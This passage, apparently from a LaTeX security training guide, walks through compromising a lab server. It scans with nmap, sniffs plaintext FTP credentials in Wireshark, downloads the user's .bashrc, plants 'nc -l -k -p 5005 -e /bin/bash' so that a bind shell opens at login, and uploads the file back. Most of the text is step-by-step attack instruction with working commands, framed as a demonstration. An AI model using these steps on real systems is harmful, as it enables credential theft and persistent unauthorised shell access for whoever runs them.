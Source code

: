 			To do this, the first step is to determine what the computer you are targeting is running.
			This is done using the tool ``nmap'' as below:
			\begin{verbatim}
				$ nmap -Sv <Target> -p-
			\end{verbatim}
			This will give us a list of the services which are running on the server, as well as their names and ports.
			We will be looking at the FTP server, as it is currently allowing plain text authentication:
			\begin{verbatim}
				21/tcp    open  ftp         vsftpd 2.3.4
			\end{verbatim}
			Unlike SFTP, the modern protocol, FTP often allows for plain text authentication, meaning that a person intercepting traffic would be able to read the user name and password.
			This is how we will begin to gain access to the system.

			Open the program Wireshark and start a listener on eth1.
			This is the NIC that is connected to the remote server and that someone may be interacting with it on.
			Usually this would be done through means such as a \href{https://lanturtle.com/}{LAN Turtle},
			However, for the purposes of this demonstration, we will simply be using a local network interface.

			When the listener is setup, look for a set of TCP and FTP packets to the target from your machine.
			These will likely be the FTP authentication, so right click and select ``Follow TCP Stream'' to view the messages that were sent.
			At this point you should have the user name and password.
			If you do not, find another set of TCP and FTP messages and try again.
			For more information on using Wireshark, see it's section in Chapter \ref{ch:Forensics}.

			Now that we can alter files on their system, add the following line to their .bashrc.
			This will open a listener on port 5005 which can be interacted with from any computer on the network.
			\begin{verbatim}
				$ nc -l -k -p 5005 -e /bin/bash
			\end{verbatim}

			Using FTP with the user name and password that you found, run the following commands:
			\begin{verbatim}
				ftp> get .bashrc
			\end{verbatim}
			Exit FTP at this point and edit the required line into the .bashrc then run the following FTP command:
			\begin{verbatim}
				ftp> put .bashrc
			\end{verbatim}
			This will mean that as soon as the msfadmin user logs into their account, a shell will be opened on port 5005.

